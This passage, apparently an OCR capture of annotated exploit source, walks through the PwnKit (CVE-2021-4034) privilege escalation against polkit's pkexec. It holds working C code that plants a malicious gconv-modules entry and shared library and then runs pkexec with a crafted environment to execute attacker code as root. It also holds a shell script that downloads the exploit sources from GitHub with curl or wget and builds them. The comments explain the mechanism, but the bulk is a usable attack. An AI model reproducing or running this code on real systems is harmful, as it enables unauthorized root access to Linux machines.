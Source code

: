 ```cpp
						        // In this case, it is set to a custom value, which might be used for a specific purpose within the application.
        NULL
    };
    char *argv[] = { NULL };

	// Creates the directory "GCONV_PATH=."
    system("mkdir GCONV_PATH=.");
    
	// Creates the file : "GCONV_PATH=./evildir" will have permissions 777.
    system("touch GCONV_PATH=./" DIR " && chmod 777 GCONV_PATH=./" DIR);

	// Create another directory named "evildir"
    system("mkdir " DIR);

	// The file 'gconv-modules' will have contents of : "module UTF-8// evil// evildir 1"
	// Actual format: <module name> <from-charset> <to-charset> <path-to-shared-library> <cost>
	// With this value in the configuration file /gconv-modules, iconv_open() uses this to know which shared library to execute when printing error messages.
	// In this case, if pkexec's iconv_open() goes to config file /gconv-modules and sees "evil" shared library, it executes "evil".
	// In this command, it creates a file in the current working directory 
    system("echo 'module\tINTERNAL\t\t\tryaagard//\t\t\t" EVILSO "\t\t\t2' > " DIR "/gconv-modules");

	// Copies the shared library "evil.so" to GCONV_PATH=./ directory.
	// In our case, evil.so gets copied to GCONV_PATH=./ directory.
    system("cp " EVILSO ".so " DIR);

	// The process to be spawned by execve via pkexec will have the environment variables added from the parent process' env variables:
	// DIR == "evildir"
	// PATH=GCONV_PATH=.
    // SHELL=ryaagard
    // CHARSET=ryaagard
    execve(BIN, argv, envp); // pkexec evildir (from GCONV_PATH=./)

    return 0;
}

#################
```

	- In our case, evil.so == pwnkit.so  && evil-so.c == pwnkit.c
	- exploit.c == cve-2021-4034.c  &&  exploit(ELF) == cve-2021-4034(ELF)


# cve-2021-4034.sh - Used to download + execute the exploit from Github

```cpp
#!/usr/bin/env sh

URL='https://raw.githubusercontent.com/berdav/CVE-2021-4034/main/'

for EXPLOIT in "${URL}/cve-2021-4034.c" \
               "${URL}/pwnkit.c" \
               "${URL}/Makefile"
do
    curl -sLO "$EXPLOIT" || wget --no-hsts -q "$EXPLOIT" -O "${EXPLOIT##*/}"
done

make
```